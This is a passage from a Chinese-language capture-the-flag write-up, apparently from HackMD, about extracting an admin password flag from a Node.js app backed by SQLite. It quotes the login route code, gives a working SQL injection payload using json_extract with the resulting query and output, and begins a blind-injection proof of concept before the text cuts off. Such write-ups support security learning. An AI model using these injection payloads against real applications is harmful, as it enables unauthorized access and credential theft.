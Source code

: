 ## Recon
這一題超爆難，應該可以預見被splitline凌虐，先看Dockerfile寫了甚麼，安裝的前置作業結束以後，分別把FLAG1和FLAG2的內容丟到`/flag1.txt`,`/flag2-{random string}.txt`中，並且執行db的初始化，也就是把FLAG1當成admin的密碼，接著比較重要的一步是把存取db內容的file(`/etc/db.sqlite3`)的權限設定read-only，這個操作後續會說明重要的地方，最後就是執行app.js

* 目標:
    我們的目標是想辦法把FLAG1拿到手，但看了一圈app.js也沒有任何想法，雖然我知道username的地方有SQLinjection的洞，但重要的是如何把密碼送到前端給我們
* 一開始的想法:
    送出post request後，會進到login route，並且db會對送來的username / password進行query，此時會發現有兩個if statement，當時我在想，只要滿足第一個if statement，他就會return並且render出原本的username，所以如果我可以創一個新的table或是insert原本的users table，並且把username設定成FLAG1，然後password設定已知，這樣的話就一定會進到第二個if statement，如此就算我不知道FLAG1是多少，他也會把username吐回來到前端
    ```javascript
    if (row.password === password) {
        if (password !== FLAG1) {
            const html = ejs.render(`<h1>Success!</h1>`, { username });
            return res.send(html);
        } else {
            const html = ejs.render(template, { username });
            return res.send(html);
        } 
    } else {
        return res.status(401).send('Unauthorized');
    }
    ```
    但這個做法有兩個原因導致無法實踐
    1. 前面講過，splitline把`/etc/db.sqlite3`設定成read-only，所以我們無法對他做任何修改
    2. 就算這個file可以修改，因為ejs.render的關係，如果給定的1st參數沒有format可以填入(就像第二個if出現的template)，他並不會把username一起render進去，雖然我也不確定為甚麼要這樣寫
* 比較可行的方式
    1. 逛了好幾圈app.js都沒有任何可以把username吐回前端的地方，代表這個思路應該不是可行的方式，此時可以想想看time based或是boolean based 這種blind injection，可能是個不錯的方式，雖然我也有嘗試union based，不過效果不大
    2. 因為是完全沒有任何filter的sql injection，所以我就直接在local的sqlite db browser下語法順便debug，當payload如下時:
        ```sql!
        admin.username") as a,
          json_extract(users, '$.admin.username') as b,
          json_extract(users, '$.admin.password') as c
        FROM db -- #
        ```
        * 在server端會變成
            ```sql!
            "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password"
            ```
        * 完整的query會變成
            ```sql!
            SELECT json_extract(users, "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password") AS password FROM db
            ```
        * 則query到的data如下
            ```sql!
            { a: null, b: 'admin', c: 'FLAG{flag-1}' }
            ```
        第一個參數a為null是因為app.js中，我們的payload經過==JSON.stringify==，會在雙引號前加一個反斜線，這會導致query時，db不知道==$.admin.username\==是甚麼東西，只有單引號沒有這個問題，但如果第一個query data不加上雙引號就會導致閉合不全而導致結果異常(如下)
        ![圖片](https://hackmd.io/_uploads/Hy29LmYvp.png)
        所以我乾脆第一個參數就算了，重新利用後兩個參數要到username和password
    3. 有了這個可以幹嘛呢?我們可以下條件，當條件符合的時候做A，否則做B，而A和B是有一些差異，可能是時間長度或是網站是否crash為基準，這樣的話我們就可以知道下的條件是否正確，POC如下:
        * 看長度
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,